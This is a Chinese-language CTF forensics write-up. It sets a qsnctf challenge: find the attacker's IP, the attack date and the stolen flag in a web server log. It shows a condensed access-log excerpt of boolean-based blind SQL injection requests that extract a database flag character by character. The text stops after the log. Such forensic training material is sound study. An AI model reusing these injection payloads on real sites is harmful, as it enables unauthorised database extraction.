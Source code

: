 ```yaml
---
title: CTF合集 日志取证
published: true
---
```


感谢 yiqing 提供的题目与部分思路

# [](#header-1)0x00、前言  

取证题目是比较新的题目，但又与以往题目思路又大同小异，于是写个post记录一下

# [](#header-1)0x01、题目  

一道qsnctf题

<table style="border:1px solid #2bbc8a;border-collapse: collapse" border="1">
  <tr><td>
    日志分析：
    发现服务器被攻击了，请在日志文件里面找到黑客攻击的地址、时间和拿走的flag。flag形式(qsnctf{IP地址-年/月/日-flag})
  </td></tr>
  <tr><td>
    <a href="https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/blindinject/log.log">日志文件</a>
  </td></tr>
</table>

给出了一大堆黑客活动产生的日志记录，我主要找黑客盗取的flag，黑客主要盲注过程经浓缩后数据大致如下所示
```
218.26.159.30 - - [06/Mar/2023:16:33:27  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>64 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:28  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>96 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:29  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>112 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:30  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>120 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:31  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>116 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:32  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>114 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:34  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),1,1))>113 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:35  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>96 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:36  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>112 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:37  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>120 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:38  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>116 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:39  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>114 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:40  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),2,1))>115 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:41  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>96 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:42  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>112 HTTP/1.1" 200 404
218.26.159.30 - - [06/Mar/2023:16:33:43  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>104 HTTP/1.1" 200 486
218.26.159.30 - - [06/Mar/2023:16:33:44  0800] "GET /index.php?id=1 AND ORD(MID((SELECT IFNULL(CAST(f1ag AS CHAR),0x20) FROM qsnctf.flag ORDER BY f1ag LIMIT 0,1),3,1))>108 HTTP/1.1" 200 486
```